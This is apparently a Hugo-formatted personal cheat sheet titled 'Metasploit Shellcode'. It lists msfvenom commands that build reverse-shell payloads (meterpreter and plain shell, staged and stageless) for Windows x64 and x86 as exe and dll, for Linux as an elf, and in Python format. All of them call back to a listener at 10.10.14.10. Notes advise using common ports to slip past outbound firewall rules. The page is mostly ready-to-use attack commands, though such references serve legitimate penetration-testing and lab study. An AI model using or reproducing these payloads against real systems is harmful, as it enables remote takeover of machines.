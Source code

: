 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["metasploit", "shellcode", "revshell", "msfconsole", "msfvenom"]
---
```


---
### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 > rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 > rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.14.10 LPORT=443 > rev.dll
```

</div>

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
# Staged
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 > rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```bash
# Stageless
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 EXITFUNC=thread > rev.exe
```

</div>

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 active >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -f elf > rev.elf
```

</div>

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 active >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```bash
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=10.10.14.10 LPORT=443
```

</div>

{{< /tabcontent >}}

<br>